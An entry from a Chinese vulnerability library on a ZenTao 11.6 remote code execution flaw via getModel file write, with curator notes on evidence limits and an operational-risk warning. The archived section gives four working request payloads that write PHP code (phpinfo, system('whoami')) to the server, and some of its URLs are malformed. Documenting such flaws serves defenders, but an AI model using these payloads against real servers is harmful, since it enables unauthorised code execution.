




# 禅道ZenTao 11.6 getModel写入包含远程代码执行

## 条目说明

- 对象与具体问题：禅道ZenTao；11.6 getModel写入包含RCE
- 版本、配置及部署条件：11.6，工作目录可写/包含配置
- 认证与权限前提：未交代鉴权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 包含URL/www/后多空格，raw链接损坏
- 相对1111/2222路径依工作目录，包含文件父路径多一级需说明
- phpinfo与system两变体不是独立漏洞，写文件无清理/补丁

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

---
title: '禅道11.6RCE漏洞'
date: Thu, 17 Sep 2020 01:55:17 +0000
draft: false
tags: ['白阁-漏洞库']
---

#### 漏洞范围

禅道 11.6

#### 漏洞POC

文件写入

#### 漏洞范围

禅道 11.6

#### 漏洞POC

### 三.远程代码执行漏洞

1）远程代码执行命令phpnifo()；

Payload 1:

http://127.0.0.1/zentaopms/www/api-getModel-editor-save-filePath=1111

POST: fileContent=<?php phpinfo(); ?>



Payload2:

http://127.0.0.1/zentaopms/www/ api-getModel-api-getMethod-filePath=1111/1

POST: fileContent=<?php phpinfo(); ?>



```
2）远程代码执行命令system('whoami');
```

Payload 1:

http://127.0.0.1/zentaopms/www/api-getModel-editor-save-filePath=2222

POST: fileContent=<?php system('whoami'); ?>



Payload 2:

http://127.0.0.1/zentaopms/www/ api-getModel-api-getMethod-filePath=2222/2

POST: fileContent=<?php system('whoami'); ?>




---

> 来源：白阁文库 BaizeSec/bylibrary
